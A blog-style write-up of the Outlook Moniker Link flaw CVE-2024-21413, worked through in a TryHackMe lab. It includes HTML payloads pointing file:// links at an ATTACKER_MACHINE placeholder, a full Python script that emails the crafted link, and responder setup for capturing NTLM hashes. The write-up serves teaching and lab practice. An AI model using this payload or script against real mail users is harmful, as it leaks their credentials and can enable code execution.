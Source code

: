 ```yaml
---
categories: [CVE-hunt]
tags: [Microsoft RCE]     # TAG names should always be lowercase
author: Darshan
description: The Outlook Moniker Link CVE-2024-21413 vulnerability allows attackers to exploit Remote Code Execution (RCE) via specially crafted email links.
image:
    path: /assets/img/Banners/moniker-link.png
pin: false
---
```


On February 13th, 2024, Microsoft announced a Microsoft Outlook RCE & credential leak vulnerability with the assigned CVE of [CVE-2024-21413](https://www.cve.org/CVERecord?id=CVE-2024-21413) (Moniker Link). Haifei Li of Check Point Research is credited with discovering the vulnerability.

## Scoring of the vulnerability:

| **CVSS** | **Description** |
| --- | --- |
| Publish date | February 13th, 2024 |
| MS article | [https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413) |
| Impact | Remote Code Execution & Credential Leak |
| Severity | Critical |
| Attack Complexity | Low |
| Scoring | 9.8 |

## Explanation:

Outlook can render emails as HTML. Additionally, Outlook can parse hyperlinks such as HTTP and HTTPS. However, it can also open URLs specifying applications known as [Moniker Links](https://learn.microsoft.com/en-us/windows/win32/com/url-monikers).

but there is Protected view in outlook which opens contents in only read-only mode blocking such as macros.

By using the **`file://`** Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (**`<a href="file://ATTACKER_IP/test>Click me</a>`**). The SMB protocol is used, which involves using local credentials for authentication. However, Outlook's "Protected View" catches and blocks this attempt.

```html
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>
```

The vulnerability here exists by modifying our hyperlink to include the **`!`** special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View. 

For example: 

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```

This vulnerability uses the Component Object Model (COM) technology in Windows. COM is a system for enabling software components to communicate, which helps applications like Outlook interact with other Microsoft programs, such as Word. By exploiting this, an attacker can create a special link that, when clicked, automatically opens the file in Word without Protected View. This method allows attackers to run commands, possibly even malicious code, on the victim's machine without obvious warning signs.

## Exploitation:

For the exploitation we’ll use the TryHackMe’s this lab: https://tryhackme.com/r/room/monikerlink

In this lab we have given a windows machine and the vulnerable Outlook version.

Open that Outlook and we can see our Target: `victim@monikerlink.thm`

![image.png](/assets/img/CVE/image.png)

Now to exploit this vulnerability we have to create a crafted email with moniker link. For that we can use the exploit available on github: 

https://github.com/CMNatic/CVE-2024-21413

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

Few Changes has to be made for this exploit to work:

- Change `ATTACKER_MACHINE` with the IP of attacker’s machine.
- Change `MAILSERVER` with the IP of the Victim’s machine.

Other than this we require a SMTP/SMB server to ensure the email sent bypasses common email validation checks such as SPF (Sender Policy Framework), DKIM (DomainKeys Identified Mail), and DMARC (Domain-based Message Authentication, Reporting, and Conformance).

For this we’ll use the `responder` command. It acts as a rogue server to intercept network authentication requests by responding to services.

Command:

```python
responder -I <interface_name (such as tun0,ens5)>
```

After setting us server we’ll run this code:

![image.png](/assets/img/CVE/image%201.png)

Check the Outlook’s mail box

![image.png](/assets/img/CVE/image%202.png)

Click that button and we get the NTLM hash of the victim.

![Screenshot 2024-11-01 235959.png](/assets/img/CVE/image%203.png)

This is how the vulnerability is exploited and this can be even worse. Attacker can literally get the Remote Code Execution on the victim’s machine.